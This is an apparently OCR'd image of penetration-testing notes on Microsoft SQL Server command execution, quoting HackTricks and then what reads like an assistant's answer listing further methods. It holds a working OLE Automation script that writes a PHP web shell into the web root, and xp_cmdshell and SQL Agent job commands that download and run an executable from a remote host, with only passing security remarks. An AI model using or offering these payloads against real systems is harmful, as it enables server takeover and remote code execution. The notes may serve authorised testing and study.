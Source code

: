 
- From Hacktricks: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
```sql
# Enable Ole Automation Procedures
sp_configure 'show advanced options', 1
RECONFIGURE

sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

# Create a File
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```


Yes, there are other methods in SQL Server that can be used to execute external commands or interact with the operating system, similar to `OLE Automation Procedures`. Below are some alternative methods:

### 1. **`xp_cmdshell`**

- **Description**: `xp_cmdshell` is a built-in extended stored procedure that allows you to execute arbitrary commands directly in the operating system's command shell. It's powerful but poses significant security risks if not properly controlled.

- **Usage Example**:
  ```sql
  EXEC xp_cmdshell 'powershell -Command "Invoke-WebRequest -Uri http://example.com/file.exe -OutFile C:\Tools\file.exe; Start-Process C:\Tools\file.exe"';
  ```

- **Enabling `xp_cmdshell`**:
  ```sql
  EXEC sp_configure 'show advanced options', 1;
  RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell', 1;
  RECONFIGURE;
  ```

- **Security Considerations**: Like `OLE Automation Procedures`, `xp_cmdshell` can be dangerous if misused. It’s often disabled by default in production environments.

### 2. **SQL Server Agent Jobs**

- **Description**: SQL Server Agent can be used to schedule and execute jobs, including those that run operating system commands or PowerShell scripts. Jobs are typically used for scheduled tasks but can also be triggered manually.

- **Usage Example**:
  - Create a job that runs a PowerShell script to download and execute a file:
    ```sql
    USE msdb;
    EXEC sp_add_job @job_name = 'DownloadAndRun';
    EXEC sp_add_jobstep @job_name = 'DownloadAndRun', @step_name = 'Step1',
        @subsystem = 'PowerShell',
        @command = 'Invoke-WebRequest -Uri http://example.com/file.exe -OutFile C:\Tools\file.exe; Start-Process C:\Tools\file.exe',
        @on_success_action = 1;
    EXEC sp_add_jobserver @job_name = 'DownloadAndRun';
    EXEC sp_start_job @job_name = 'DownloadAndRun';
    ```
